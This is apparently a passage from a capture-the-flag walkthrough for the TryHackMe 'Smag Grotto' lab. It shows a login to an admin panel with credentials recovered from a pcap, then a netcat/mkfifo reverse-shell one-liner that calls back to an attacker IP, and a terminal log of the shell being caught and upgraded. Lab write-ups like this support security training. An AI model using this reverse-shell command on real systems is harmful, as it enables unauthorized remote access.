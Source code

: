 
### Accessing Admin Panel

- Login using the credentials found in the pcap file:

![Smag Grotto - Admin](Images/Smag-Admin.png)


### Reverse Shell

- Now that we have a web shell, we can get a reverse shell using:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.7.91 1234 >/tmp/f
```

- Once you get a reverse shell, upgrade it:

```bash
root@kali:~/Desktop/CTF/TryHackMe/smaggrotto# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.7.91] from (UNKNOWN) [10.10.155.203] 36046
/bin/sh: 0: can't access tty; job control turned off
$ ls
admin.php
login.php
materialize.min.css
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@smag:/var/www/development.smag.thm$ export TERM=xterm
export TERM=xterm
www-data@smag:/var/www/development.smag.thm$ ^Z
[1]+  Stopped                 nc -lvnp 1234
root@kali:~/Desktop/CTF/TryHackMe/smaggrotto# stty raw -echo;fg
nc -lvnp 1234

www-data@smag:/var/www/development.smag.thm$
```

---